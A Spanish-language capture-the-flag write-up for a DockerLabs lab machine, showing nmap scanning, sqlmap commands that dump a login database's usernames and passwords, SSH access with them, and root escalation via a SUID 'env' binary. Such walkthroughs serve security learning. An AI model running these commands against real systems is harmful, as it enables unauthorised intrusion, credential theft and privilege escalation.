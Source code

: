 # Injection

* Máquina **atacante** -> 172.17.0.1
* Máquina **objetivo** -> 172.17.0.2 | Linux :penguin:

### Escaneo de puertos

Realizamos un escaneo de puertos con *nmap* para ver puertos abiertos de la máquina **objetivo**:
```shell
nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 172.17.0.2
```
![Resultado escaneo](/Writeups_Dockerlabs/Capturas/2024-10-19_16-23.png)

### Inyección SQL

Tras el escaneo, vemos que la máquina **objetivo** tiene dos puertos abiertos, el **22**(*ssh*) y el **80**(*http*). Así que procedemos a ir a nuestro navegador y ver qué tenemos corriendo por el puerto **80**. Esto nos lleva a un **panel de login**, por lo que procederemos a realizar un **ataque de inyección SQL** con *sqlmap*:
```shell
sqlmap -u http://172.17.0.2/ --forms --dbs --batch
```
![resultado bbdd](/Writeups_Dockerlabs/Capturas/2024-10-19_16-48.png)

Tras realizar una búsqueda de BBDD, encontramos una interesante llamada **register**, por lo que enumeraremos las tablas en busca de más información:
```shell
sqlmap -u http://172.17.0.2/ --forms -D register --tables --batch
```
![resultado tablas](/Writeups_Dockerlabs/Capturas/2024-10-19_16-51.png)

Vemos que hay una tabla llamada **users**, así que continuamos enumerando ahora las columnas de dicha tabla:
```shell
sqlmap -u http://172.17.0.2/ --forms -D register -T users --columns --batch
```
![resultado columnas](/Writeups_Dockerlabs/Capturas/2024-10-19_16-55.png)

Encontramos dos columnas: **passwd** y **username**. Y ya sólo nos queda volcar los registros contenidos en dichas columnas:
```shell
sqlmap -u http://172.17.0.2/ --forms -D register -T users -C passwd,username --dump --batch
```
![resultado registros](/Writeups_Dockerlabs/Capturas/2024-10-19_16-59.png)

Y ya tenemos un **usuario** y una **contraseña** con los que podemos probar a entrar.

### Acceso vía SSH

Accedemos a la máquina **objetivo** vía *ssh* con las credenciales encontradas:

![acceso ssh](/Writeups_Dockerlabs/Capturas/2024-10-19_17-04.png)

### Escalada de privilegios

Enumeramos los binarios SUID de la máquina **objetivo**:
```shell
find / -perm -4000 2>/dev/null
```
![enumeracion de binarios](/Writeups_Dockerlabs/Capturas/2024-10-19_17-11.png)

Escalamos privilegios aprovechándonos del binario **env**:
```shell
env /bin/sh -p
```
![escalada](/Writeups_Dockerlabs/Capturas/2024-10-19_17-14.png)

Y ya somos usuario **root** :triangular_flag_on_post: